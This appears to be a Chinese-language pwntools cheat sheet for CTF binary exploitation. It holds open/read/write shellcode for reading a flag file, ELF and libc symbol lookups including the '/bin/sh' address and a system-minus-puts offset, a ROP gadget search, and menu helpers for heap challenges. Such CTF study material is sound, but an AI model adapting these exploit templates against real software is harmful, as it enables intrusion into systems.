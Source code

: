 ```python
# 32位
shellcode = ''
shellcode += shellcraft.open('./flag')
shellcode += shellcraft.read('eax','esp',0x100)
shellcode += shellcraft.write(1,'esp',0x100)
shellcode = asm(shellcode)

# 64位
shellcode = ''
shellcode += shellcraft.open('./flag')
shellcode += shellcraft.read('rax','rsp',0x100)
shellcode += shellcraft.write(1,'rsp',0x100)
shellcode = asm(shellcode)
```

**elf+libc**

```Python
# 返回整型
elf = ELF("./xxx")					# 获取ELF文件的信息
hex(next(elf.search(b"/bin/sh")))	# 获取/bin/sh的地址
hex(elf.address)					# 获取文件基地址
hex(elf.symbols['函数/变量/符号名'])  # 获取函数/变量/符号地址
hex(elf.got['函数名'])				  # 获取函数在got表表项的地址
hex(elf.plt['函数名'])				  # 获取函数PLT地址

libc = ELF("libc.so.6") # 获取libc文件信息, 若函数在libc中而不在文件的plt中, 使用此找函数偏移
hex(libc.sym['函数名']) # 已泄露出libc基址后获取对应函数
offset = libc.sym['system'] - libc.sym['puts']
```

**ROP**

```Python
rop = ROP(elf)
pop_rdi_ret = rop.find_gadget(['pop rdi', 'ret'])[0]
```

**heap**统一函数操作：

```Python
def add(size):
    p.recvuntil('choice: ')
    p.sendline('1')
    p.recvuntil('size?')
    p.sendline(str(size))

def edit(idx,content):
    p.recvuntil('choice: ')
    p.sendline('2')
    p.recvuntil('idx?')
    p.sendline(str(idx)) # 有时为 str(idx).encode()
    p.recvuntil('content:')
    p.sendline(content)

def show(idx):
    p.recvuntil('choice: ')
    p.sendline('3')
    p.recvuntil('idx?')
    p.sendline(str(idx))

def delete(idx):
    p.recvuntil('choice: ')
    p.sendline('4')
    p.recvuntil('idx?')
    p.sendline(str(idx))
```